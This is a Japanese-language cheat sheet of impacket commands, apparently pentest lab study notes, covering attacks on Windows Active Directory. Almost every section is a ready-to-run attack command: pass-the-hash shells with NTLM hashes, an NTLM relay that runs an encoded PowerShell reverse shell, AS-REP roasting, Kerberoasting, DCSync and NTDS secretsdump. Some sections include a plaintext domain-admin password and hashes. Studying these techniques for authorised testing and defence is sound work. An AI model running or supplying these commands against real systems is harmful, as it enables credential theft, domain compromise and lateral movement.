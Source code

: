 # impacket

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

4.1 ユーザ名をLdap経由で取得した後、匿名でそのユーザのAS-REPハッシュが取得できないかを調べる。  
ユーザ名は事前に列挙してからリストを作成してパスワードスプレーをする。
```
sudo impacket-GetNPUsers -usersfile ./usernames.txt -no-pass -dc-ip <targetIP> htb.local/ > asrep-roasting
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

6. DCSYNC攻撃をkaliからターゲットのwindowsに対して実行する。  
-just-dc-userの引数にターゲットのユーザ名daveを、dcsyncする際に要求を送る側には権限が必要なので、その権限を持つユーザをcorp.com/jeffadminとしてる。  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

7. impacketを使ってNTLMハッシュでAdministratorユーザとしてセッションをとる。横展開で使える。
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.209.73
```

8. WindowsのシャドウコピーからダンプしたバックアップファイルをKaliのローカルで解析して資格情報を抽出する。これでNTLMハッシュやKerberosのキーが取得できる。
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```